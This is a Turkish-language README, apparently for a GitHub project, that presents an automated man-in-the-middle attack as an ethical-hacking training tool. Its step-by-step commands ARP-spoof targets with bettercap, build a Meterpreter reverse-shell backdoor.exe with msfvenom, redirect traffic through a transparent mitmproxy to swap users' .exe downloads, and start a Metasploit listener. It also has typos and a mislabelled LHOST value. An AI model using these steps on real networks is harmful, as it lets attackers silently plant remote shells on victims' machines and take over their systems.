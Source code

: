 
# 📜 Proje Açıklaması: Phthon ile Otomatikleştirilmiş MITM Sarlırısı

## 🔍 **Projenin Amacı**
Bu araç, **siber güvenlik uzmanlarına** ve **etik hacker'lara** yönelik geliştirilmiş bir eğitim simülasyonudur. Temel işlevleri:
- Ağ trafiğini manipüle ederek `.exe` indirmeleri yönlendirme
- ARP spoofing ile tam trafik denetimi
- Gerçekçi penetrasyon test senaryoları oluşturma

## 🛠️ **Nasıl Çalışır?**
İşte **MITM saldırısıyla EXE yönlendirme** için gereken tüm adımlar ve komutlar:

---

### 🔧 **1. Hazırlık Aşaması**
```bash
# Gerekliliklerin kurulumu (Kali Linux)
sudo apt update && sudo apt install -y mitmproxy bettercap metasploit-framework python3
```

### 🌐 **2. Ağ Dinleme Başlatma**
```bash
# Ağ arayüzünü belirleme (örnek: wlan0)
sudo bettercap -iface wlan0
```

### 🕵️♂️ **3. ARP Spoofing Aktivasyonu**
```bettercap
# Bettercap içinde çalıştırılacak komutlar
net.probe on
set arp.spoof.targets ***  # Hedef IP
set arp.spoof.fullduplex true
arp.spoof on
```

### 🎯 **4. Backdoor Oluşturma**
```bash
# Meterpreter payload üretimi
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Hedep IP LPORT=1234 -f exe -o /var/www/html/backdoor.exe
```

### 🚦 **5. Trafik Yönlendirme Kuralları**
```bash
# IP Tables ayarları
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

### ⚡ **6. MITM Proxy Başlatma**
```bash
./mitmdump -s mitm.py --mode transparent
```

### 📡 **7. Metasploit Dinleyici**
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST ***; set LPORT 1234; exploit"
```

### 📌 **Önemli Notlar**
1. **IP Adresleri** kendi ağınıza göre değiştirilmeli
2. Sertifika hatası almamak için hedef cihazda `mitm.it`'den CA sertifikası yüklenmeli
3. Testler sadece **yasal ortamlarda** yapılmalıdır

---

Bu komutlar **Kali Linux 2023+** sürümlerinde test edilmiştir. Her adımın çıktılarını kontrol ederek ilerleyin! 💻

## 🌟 **Öne Çıkan Özellikler**
| Özellik | Açıklama |
|---------|----------|
| **Görünmez Yönlendirme** | Kullanıcılar orijinal dosyayı indirdiğini sanar |
| **SSL Bypass** | Mitm.it sertifikasıyla şifreli trafik çözülür |
| **Çoklu Hedef** | Tüm ağ veya tek cihaz seçilebilir |

**Örnek Kullanım Senaryoları**:
- Kurumsal ağ güvenlik testleri
- Siber güvenlik eğitimleri
- Zararlı yazılım davranış analizleri

## 💡 **Neden Önemli?**
- Şirketlerin **indirme güvenliği** zafiyetlerini test eder
- **Sosyal mühendislik** saldırılarının teknik ayağını simüle eder
- Güvenlik uzmanlarının **savunma mekanizmaları** geliştirmesine yardımcı olur

---

> "Bilgi güvenliği, savunma ve saldırı dinamiklerini anlamakla başlar." - Siber Güvenlik Manifestosu

---
